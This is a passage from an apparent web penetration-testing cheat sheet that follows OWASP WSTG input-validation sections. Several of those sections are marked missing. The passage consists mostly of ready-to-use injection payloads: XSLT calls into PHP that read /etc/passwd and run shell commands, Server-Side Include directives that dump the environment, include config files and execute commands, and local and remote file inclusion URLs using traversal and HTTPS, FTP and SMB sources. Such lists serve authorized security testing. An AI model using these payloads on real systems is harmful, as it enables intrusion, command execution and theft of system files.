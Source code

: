 (Need XSLT version 2.0)

**RCE:**

```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
<xsl:value-of select="php:function('system','whoami')" />
```

(Need PHP functions to be enabled)

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

### 4.7.8 Testing for SSI Injection (WSTG-INPV-08)

**Information disclosure:**

```
<!--#printenv -->
<!--#echo var="DOCUMENT_NAME" var="DOCUMENT_URI" var="DATE_LOCAL" var="LAST_MODIFIED" -->
```

**LFI:**

```
<!--#include virtual="config.inc.php" -->
```

(limited to files in the webroot directroy)

**RCE:**

```
<!--#exec cmd="cat /etc/passwd" -->
```

### 4.7.9 Testing for XPath Injection (WSTG-INPV-09)

❗❗❗MISSING❗❗❗

### 4.7.10 Testing for IMAP SMTP Injection (WSTG-INPV-10)

❗❗❗MISSING❗❗❗

### 4.7.11 Testing for Code Injection (WSTG-INPV-11)

❗❗❗MISSING❗❗❗

#### 4.7.11.1 Testing for Local File Inclusion

 - `https://pentest-experts.com/index.php?page=../../../../../etc/passwd` (local)
 - `https://pentest-experts.com/index.php?page=https://pentest-experts.com/sypps.txt` (remote)
 - `https://pentest-experts.com/index.php?page=ftp://pentest-experts.com/sypps.txt`  
   (remote via FTP in case WAF block `https://`)
 - `https://pentest-experts.com/index.php?page=\\192.168.1.2\sypps.txt`  
   (remote via SMB in case WAF block `https://` - Windows webserver only but works there even if `allow_url_include` is deactivated)
